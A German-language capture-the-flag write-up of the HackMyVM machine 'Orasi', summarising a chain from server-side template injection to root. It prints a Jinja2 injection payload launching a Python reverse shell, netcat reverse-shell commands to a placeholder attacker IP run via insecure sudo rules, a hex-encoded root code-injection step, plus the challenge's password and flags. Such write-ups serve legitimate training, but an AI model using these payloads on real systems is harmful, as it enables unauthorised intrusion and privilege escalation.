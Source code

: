 # Orasi - HackMyVM (Hard)

![Orasi.png](Orasi.png)

## Übersicht

*   **VM:** Orasi
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Orasi)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** [DATUM_HIER_EINFÜGEN]
*   **Original-Writeup:** https://alientec1908.github.io/Orasi_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Orasi" zu erlangen. Der Weg dorthin führte über mehrere Eskalationsstufen: Zuerst wurde eine Server-Side Template Injection (SSTI)-Schwachstelle in einer Python/Werkzeug-Webanwendung auf Port 5000 ausgenutzt, um eine Reverse Shell als `www-data` zu erhalten. Anschließend wurde durch Ausnutzung einer unsicheren `sudo`-Regel, die `www-data` erlaubte, ein PHP-Skript (`/home/kori/jail.php`) als Benutzer `kori` auszuführen, zu `kori` eskaliert. In diesem Kontext wurde eine Android-APK-Datei (`irida.apk`, vermutlich von einem nicht dokumentierten Dienst auf Port 9005 heruntergeladen) gefunden. Durch Reverse Engineering dieser APK wurde das Passwort für den Benutzer `irida` (`eye.of.the.tiger()`) extrahiert, was einen Wechsel zu `irida` ermöglichte. Die finale Eskalation zu Root gelang durch Ausnutzung einer weiteren unsicheren `sudo`-Regel, die `irida` erlaubte, ein Python-Skript (`/root/oras.py`) als Root auszuführen. Dieses Skript war anfällig für Code-Injection, da es hex-kodierte Python-Befehle von der Standardeingabe entgegennahm und ausführte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `lftp`
*   `wfuzz`
*   `curl`
*   IDA Pro/Ghidra (implizit für Binary-Analyse)
*   `crunch`
*   `ffuf`
*   `nc` (netcat)
*   Python3
*   `sudo`
*   `php`
*   `apt-get`
*   `wget`
*   `unzip`
*   `jd-gui`
*   `dex2jar`
*   Standard Linux-Befehle (`cat`, `su`, `id`, `pwd`, `ls`, `chmod`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Orasi" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web/API Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.144 – Abweichung vom ARP-Scan, der .158 fand) identifiziert. Hostname `orasi.vm` (implizit) oder `orasi.hmv` (im Bericht unklar) verwendet.
    *   `nmap`-Scan offenbarte Port 21 (FTP, vsftpd 3.0.3, anonymer Login erfolgreich), 22 (SSH, OpenSSH 7.9p1), 80 (HTTP, Apache 2.4.38) und 5000 (HTTP, Werkzeug httpd 1.0.1 / Python 3.7.3).
    *   Port 80 (Apache) und anonymer FTP zeigten keine direkten Schwachstellen.
    *   Reverse Engineering einer (nicht im Log gezeigten) Binärdatei enthüllte den versteckten Web-Pfad `/sh4d0w$s` auf Port 5000.
    *   Fuzzing dieses Pfades mit `wfuzz` und einer Wortliste aus `crunch` (`l333tt`, `1337leet`) fand den gültigen GET-Parameter `l333tt`.

2.  **Initial Access (SSTI zu RCE als `www-data`):**
    *   Der Endpunkt `/sh4d0w$s?l333tt=[PAYLOAD]` war anfällig für Server-Side Template Injection (SSTI, wahrscheinlich Jinja2).
    *   Ein SSTI-Payload wurde konstruiert, um eine Python3-Reverse-Shell auszuführen:
        `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os,pty;s=socket.socket(...);s.connect(...);...;pty.spawn(...);'").read()}}{%endif%}{% endfor %}`
    *   Nach URL-Kodierung und Senden des Payloads wurde eine Reverse Shell als `www-data` zu einem Netcat-Listener (Port 4444) empfangen.

3.  **Privilege Escalation (von `www-data` zu `kori` via `sudo php`):**
    *   Als `www-data` wurde (impliziert durch `sudo -l`) festgestellt, dass `/bin/php /home/kori/jail.php` als Benutzer `kori` ausgeführt werden durfte.
    *   Das Skript `jail.php` war anfällig für Command Injection über seine Argumente.
    *   Durch Ausführen von `sudo -u kori /bin/php /home/kori/jail.php "nc -e /bin/bash ANGRIFFS_IP 9002"` wurde eine Reverse Shell als `kori` zu einem Netcat-Listener (Port 9002) aufgebaut.

4.  **Privilege Escalation (von `kori` zu `irida` via APK Reverse Engineering):**
    *   Als `kori` wurde eine Android-App-Datei (`irida.apk`) gefunden (vermutlich von einem nicht dokumentierten Dienst auf Port 9005 heruntergeladen).
    *   Mittels `unzip`, `dex2jar` und `jd-gui` wurde die APK-Datei dekompiliert.
    *   Im dekompilierten Code wurde das hartkodierte Passwort `eye.of.the.tiger()` für den Benutzer `irida` gefunden.
    *   Erfolgreicher Wechsel zu `irida` mit `su irida` und dem gefundenen Passwort.
    *   Die User-Flag (`2afb9cbb10c22dc7e154a8c434595948`) wurde in `/home/irida/user.txt` gefunden.

5.  **Privilege Escalation (von `irida` zu `root` via `sudo python` Code Injection):**
    *   `sudo -l` als `irida` zeigte, dass `/usr/bin/python3 /root/oras.py` als `root` ohne Passwort ausgeführt werden durfte.
    *   Das Skript `/root/oras.py` nahm hex-kodierte Python-Befehle von der Standardeingabe entgegen und führte diese aus.
    *   Ein Python-Befehl für eine Reverse Shell (`import('os').system('nc -e /bin/bash ANGRIFFS_IP 9006')`) wurde hex-kodiert.
    *   Durch Ausführen von `python3 -c "print(b\"PAYLOAD\".hex())" | sudo python3 /root/oras.py` wurde der hex-kodierte Payload an das Skript übergeben.
    *   Eine Root-Shell wurde auf einem Netcat-Listener (Port 9006) empfangen.
    *   Die Root-Flag (`b1c17c79773c831cbb9109802059c6b5`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Server-Side Template Injection (SSTI):** Eine Python/Werkzeug-Webanwendung auf Port 5000 war anfällig für SSTI, was zu RCE führte.
*   **Unsichere `sudo`-Regeln:**
    *   `www-data` durfte ein PHP-Skript (`jail.php`) als `kori` ausführen, welches anfällig für Command Injection war.
    *   `irida` durfte ein Python-Skript (`oras.py`) als `root` ausführen, welches hex-kodierte Python-Befehle von stdin entgegennahm und ausführte (Code Injection).
*   **Hardcodierte Credentials in Android APK:** Ein Passwort für den Benutzer `irida` war in einer APK-Datei gespeichert.
*   **Reverse Engineering (Binärdatei & APK):** Analyse einer Binärdatei zur Entdeckung eines versteckten Web-Pfades und Dekompilierung einer APK zur Extraktion von Credentials.
*   **FTP Anonymer Zugriff:** Erlaubte initiales Listing, aber keine direkten Exploits.

## Flags

*   **User Flag (`/home/irida/user.txt`):** `2afb9cbb10c22dc7e154a8c434595948`
*   **Root Flag (`/root/root.txt`):** `b1c17c79773c831cbb9109802059c6b5`

## Tags

`HackMyVM`, `Orasi`, `Hard`, `SSTI`, `Python`, `Werkzeug`, `sudo Exploit`, `Command Injection`, `PHP`, `APK Reverse Engineering`, `Hardcoded Credentials`, `Linux`, `Web`, `Privilege Escalation`, `FTP`, `Apache`
